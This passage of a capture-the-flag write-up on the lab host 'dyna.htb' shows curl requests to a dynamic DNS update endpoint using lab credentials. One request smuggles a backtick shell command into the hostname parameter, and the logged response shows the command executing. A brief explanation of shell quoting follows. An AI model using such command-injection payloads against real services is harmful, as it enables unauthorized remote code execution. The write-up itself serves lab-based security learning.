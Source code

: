 ```
< Content-Type: text/html; charset=UTF-8
<
good 10.10.14.11
* Connection #0 to host dyna.htb left intact
```

This time we got the ‘good’ response message, so we can use this domain for further purpose. A Vulnerability exists in dynamic DNS.

[DNS Server Dynamic Update Record Injection](https://www.tenable.com/plugins/nessus/35372)

Let’s try to run linux command inside hostname to get RCE.

**cURL - 4**

```
🔥\> curl --user dynadns:sndanyd "http://dyna.htb/nic/update?hostname=`whoami`.dnsalias.htb&myip=10.10.14.11" -v
*   Trying 10.129.48.120:80...
* Connected to dyna.htb (10.129.48.120) port 80 (#0)
* Server auth using Basic with user 'dynadns'
> GET /nic/update?hostname=kali.dnsalias.htb&myip=10.10.14.11 HTTP/1.1
> Host: dyna.htb
> Authorization: Basic ZHluYWRuczpzbmRhbnlk
> User-Agent: curl/7.74.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Thu, 24 Jun 2021 10:56:39 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 17
< Content-Type: text/html; charset=UTF-8
<
good 10.10.14.11
* Connection #0 to host dyna.htb left intact
```

As you can see, under hostname value we are using linux command ‘whoami’ as subdomain. The response message is positive that means, it is working.

> Difference Between Single/Double Quote and Backtick **Single Quote**: Enclosing characters in single quotation marks (‘) holds onto the literal value of each character within the quotes. **Double Quote**: Double quotes are similar to single quotes except that it allows the  to interpret dollar sign ($), backtick(`), backslash() and exclamation mark(!).

> **Example -** I have assigned value to test variable, using single quote and double let’s see how they work.

```
🔥\> echo '$test'
$test

🔥\> echo "$test"
quote
```
